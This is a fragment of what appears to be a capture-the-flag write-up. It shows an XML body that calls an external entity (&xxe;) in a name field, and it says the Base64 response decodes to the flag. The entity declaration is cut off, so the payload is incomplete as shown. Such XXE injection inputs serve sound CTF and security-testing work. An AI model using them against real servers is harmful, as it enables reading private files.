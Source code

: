 ```xml
]>
<root>
<name>&xxe;</name>
<details>hello</details>
<date>01/01/2022</date>
</root>
```
The result will be a Base64 you need to decode and you'll get the flag.